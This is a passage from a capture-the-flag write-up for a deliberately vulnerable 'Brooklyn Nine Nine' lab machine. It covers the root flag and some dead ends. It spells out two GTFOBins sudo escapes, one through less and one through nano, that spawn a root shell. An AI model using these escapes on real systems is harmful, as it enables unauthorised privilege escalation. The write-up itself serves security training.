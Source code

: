 - GTFOBins gives us a way to spawn a root shell with the following sytnax:
```
sudo less /etc/profile
!/bin/sh
```

- Navigate to the `/root` directory and `cat root.txt`
```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: {flag}
Enjoy!!
```

---
## Rabbit Holes
### Searching for Steganography
- I navigated to the /brooklyn99.jpg directory seen in the page source code. I downloaded it since there was reference to steganography in the comments.
- I used Exiftool, CyberChef, and Binwalk to pull metadata from it, but to no avail. 

### Holt User
- After obtaining root permissions, you can switch to the Holt user. Using `sudo -l` will show the following:
```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- I just checked this before grabbing the root flag just to see if Holt had root privileges, since he is the chief of police in the show.
- However, `/bin/nano` can also be given to GTFOBins to spawn a root shell using the following syntax:
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
